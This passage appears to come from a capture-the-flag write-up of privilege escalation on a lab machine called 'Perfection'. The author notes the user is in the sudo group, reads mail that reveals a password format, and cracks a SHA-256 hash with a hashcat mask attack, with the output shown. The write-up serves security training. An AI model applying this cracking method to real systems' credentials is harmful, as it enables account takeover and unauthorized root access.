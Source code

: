 Something important to take into accounts is that we belong to the sudo group, so if we manage to get susan password, we can execute any command as root:

```bash
susan@perfection:~/Migration$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

Looking at the mail of susan, we can see that tina is advising susan that she needs to update his password due to a migration, and we have the format needed:

```bash
susan@perfection:~/Migration$ cat /var/mail/susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

I will use hashcat to specify the format and try to crack it:

```bash
❯ hashcat -m 1400 -a 3 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f' 'susan_nasus_?d?d?d?d?d?d?d?d?d'
hashcat (v6.2.6) starting

<..SNIP..>

abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Sat Jul  6 17:29:15 2024 (2 mins, 4 secs)
Time.Estimated...: Sat Jul  6 17:31:19 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2823.6 kH/s (0.37ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324558848/1000000000 (32.46%)
Rejected.........: 0/324558848 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_803824210
Hardware.Mon.#1..: Util: 49%

Started: Sat Jul  6 17:29:00 2024
Stopped: Sat Jul  6 17:31:20 2024
```
